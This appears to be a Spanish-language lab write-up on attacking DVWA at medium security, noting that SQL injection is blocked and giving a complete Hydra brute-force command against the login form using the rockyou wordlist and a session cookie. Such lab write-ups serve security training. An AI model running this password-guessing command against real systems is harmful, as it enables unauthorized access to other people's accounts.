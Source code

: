 # Explotación Nivel Medio DVWA

## 1. SQL Injection Bloqueada

La función `mysql_real_escape_string` implementada en este nivel previene inyecciones SQL directas al escapar caracteres especiales en la entrada del usuario. Los payloads del nivel bajo ya no son efectivos.

## 2. Fuerza Bruta con Hydra

Aunque la inyección SQL directa está bloqueada, aún podemos intentar un ataque de fuerza bruta para adivinar la contraseña.

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=medium:F=Username and/or password incorrect."
```

Nota: Reemplaza <IP_SERVIDOR> con la dirección IP de tu servidor DVWA y <TU_SESION> con el valor actual de tu cookie PHPSESSID.

Resultado: Hydra intentará cada contraseña en la lista rockyou.txt para el usuario "admin". Eventualmente, si la contraseña se encuentra en la lista, Hydra la revelará. El proceso puede ser más lento en comparación con el nivel bajo, ya que cada intento requiere una petición HTTP completa.

<img src="../../BruteForceMedium01">

